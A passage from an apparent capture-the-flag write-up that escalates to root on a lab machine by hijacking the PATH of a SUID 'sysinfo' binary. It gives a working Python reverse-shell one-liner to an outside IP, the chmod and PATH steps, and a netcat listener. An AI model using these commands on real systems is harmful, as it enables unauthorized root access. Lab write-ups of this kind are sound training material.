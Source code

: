 Now we need to escalate our privileges to root. I downloaded the _LinEnum_ script and ran it. It looks like the SUID bit is set for the _sysinfo_ program, which means that the program runs with the privileges of the owner of the file.

```text
/bin/sysinfo
```

Let’s run _strings_ on the program to see what it’s doing.

```text
theseus@ubuntu:/usr/include/x86_64-linux-gnu/sys$ strings /bin/sysinfo
...
====================Hardware Info====================
lshw -short
====================Disk Info====================
fdisk -l
...
```

We can see that it runs the _fdisk_ & _lshw_ programs without specifying the full path. Therefore, we could abuse that to our advantage and have it instead run a malicious _fdisk_ program that we control.

In the _tmp_ folder \(which we have write access to\), create an _fdisk_ file and add a python reverse shell to it.

```text
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.171",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Give it execute rights.

```text
chmod +x fdisk
```

Set the path directory to include the _tmp_ directory.

```text
PATH=/tmp:$PATH
```

This way when we run the _sysinfo_ program, it’ll look for the _fdisk_ program in the _tmp_ directory and execute our reverse shell.

Setup a netcat listener to receive the reverse shell.

```text
nc -nlvp 7777
```

Then run the _sysinfo_ command.

```text
sysinfo
```

We get a shell!
